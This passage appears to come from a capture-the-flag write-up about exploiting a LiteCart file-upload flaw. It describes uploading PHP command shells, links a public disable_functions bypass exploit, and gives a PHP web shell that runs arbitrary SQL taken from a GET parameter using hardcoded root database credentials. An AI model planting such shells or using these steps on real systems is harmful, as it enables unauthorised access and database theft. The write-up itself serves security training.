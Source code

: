 Now we can try to exploit the upload vulnerability to try to get a shell on the machine.

>**NOTE:** I am going to skip over some things that I did when completing this machine the first time. I attempted the exploit script linked above, as well as another script that I found. Both scripts were successful in uploading a php command shell, but the command shells did not work. To troubleshoot this, I manually exploited this, uploading a file to return the phpinfo(). This showed me that all of the system command execution functions are in the disabled functions list. Not ready to give up on this, I researched `bypassing disable_functions in PHP 7`. This lead me to [this command shell](https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php). This shell ended up working! However, having a command shell as the `www-data` user did not get me anymore information than I had before getting this functionality. This was just a PHP command shell and I was still unable to get a reverse shell. And so this was more or less a rabbit hole that I spent about 4 hours on! I eventually realized that the `mysql` user was logged on to the machine via SSH, and was able to see this through my enumeration on the command shell. This made me think about creating a custom PHP file that would allow me to query the database, and then to use the upload vulnerability to get the file on the server.

## Exploiting LiteCart - Uploading PHP MySQL Shell
Now that we have found database credentials and LiteCart credentials, we should create a basic php script that will connect to the database and then send a query that we pass as a parameter to the page request.

>**NOTE:** My PHP skills are amateur at best. This is the script that I came up with for this. If you have a more efficient or better way of handling the connection or the output, please feel free to use your own script or modify this one.

Let's save the following script to or working directory, naming it `query.php`.

``` php
<?php

// Establish a connection to the ecom database
$mysqli = new mysqli("localhost","root","changethis","ecom");

// Get the value of the 'q' parameter
$q = $_GET['q'];

// Check connection
if ($mysqli -> connect_errno) {
  echo "Failed to connect to MySQL: " . $mysqli -> connect_error;
  exit();
}

// Perform query and return each row of the results
foreach ( $mysqli->query("$q") as $row ) {
    print_r($row);//echo "{$row['field']}";
    echo " ";
}

// Close the connection
$mysqli -> close();
?>
```

